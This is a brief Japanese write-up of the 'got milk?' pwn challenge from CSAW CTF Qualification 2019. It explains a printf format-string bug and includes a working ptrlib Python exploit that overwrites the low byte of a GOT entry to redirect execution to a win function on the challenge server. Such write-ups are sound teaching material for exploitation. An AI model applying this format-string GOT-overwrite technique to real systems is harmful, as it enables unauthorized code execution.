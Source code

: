# [pwn 50pts] got milk? - CSAW CTF Qualification 2019
64ビットバイナリで、DEP以外無効です。
```
$ checksec -f gotmilk
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   72 Symbols     No       0               4       gotmilk
```

printfによるFSBがあり、その後にlibmylib.soのlose関数が呼ばれます。他にもwin関数があるので、これを呼び出せばOKです。loseとwinはアドレスが下位1バイトしか変わらないので、fsbでloseのGOTの下位1バイトをwinのものに書き換えればwinが呼び出せます。
```python
from ptrlib import *

elf = ELF("./gotmilk")
lib = ELF("./libmylib.so")
#sock = Process("./gotmilk", env={"LD_LIBRARY_PATH": "./"})
sock = Socket("pwn.chal.csaw.io", 1004)

payload = p32(elf.got("lose"))
payload += str2bytes('%{}c%7$hhn'.format(0x89 - 4))
sock.sendline(payload)

sock.interactive()
```

# 感想
簡単ですね。

